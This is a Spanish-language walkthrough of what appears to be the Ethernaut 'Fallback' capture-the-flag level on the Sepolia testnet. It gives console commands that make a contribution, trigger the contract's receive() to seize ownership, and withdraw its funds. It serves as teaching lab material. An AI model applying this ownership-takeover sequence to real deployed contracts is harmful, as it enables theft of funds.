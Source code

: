# Fallback

> Estas son las instrucciones en las que se basan este vídeo:

<p align="center">
  <a href="https://www.youtube.com/watch?v=k3XcapaUyFg">
    <img src="https://img.youtube.com/vi/k3XcapaUyFg/hqdefault.jpg" alt="Link al video de Youtube">
  </a>
</p>

Los objetivos son convertirse en el **dueño** del contrato y **reducir su balance a cero**, es decir robar sus fondos. Para empezar, vamos a crear una nueva instancia de este contrato en la red de pruebas Sepolia.

Ahora vamos a analizar el código, y como el primer objetivo es convertirse en el dueño, observamos que se inicia una variable de tipo `address` con la dirección del dueño.

```solidity
address public owner;
```

Más abajo, en la función `receive`, se establece esta variable a la cuenta que envía los fondos con la condición de que tenga **contribuciones**.

```solidity
receive() external payable {
        require(msg.value > 0 && contributions[msg.sender] > 0);
        owner = msg.sender;
    }
```

¿Qué contribuciones?

Si subimos un poco, veremos que hay una función que se llama `contribute()` que requiere que se mande menos de 0.001 ether y establece en la variable _contributions_ un número mayor a cero, que es lo que necesitamos.

```solidity
function contribute() public payable {
        require(msg.value < 0.001 ether);
        contributions[msg.sender] += msg.value;
        if (contributions[msg.sender] > contributions[owner]) {
            owner = msg.sender;
        }
    }
```

Primero vamos a comprobar quien es el `owner` desde la consola de comandos del navegador:

```jsx
await contract.owner();
```

Después vamos a llamar a esta función para tener al menos una contribución y poder pasar la condición de la función `receive`.

```jsx
await contract.contribute({ value: toWei("0.0001", "ether") });
```

Ahora que tenemos una **contribución**, enviaremos una transacción a bajo nivel al contrato para convertirnos en el `owner`.

```jsx
await sendTransaction({
  to: "<lvl instance>",
  value: toWei("0.0001", "ether"),
  from: "<player>",
});
```

Esperamos a que se confirme la transacción en la Blockchain y comprobamos que somos el `owner` del contrato.

```jsx
await contract.owner();
```

Ahora que somos los `owner` del contrato, podemos llamar a la función withdraw para retirar los fondos a nuestra cuenta.

```jsx
await contract.withdraw();
```

Para terminar, entregamos la instancia del nivel firmando la transacción.
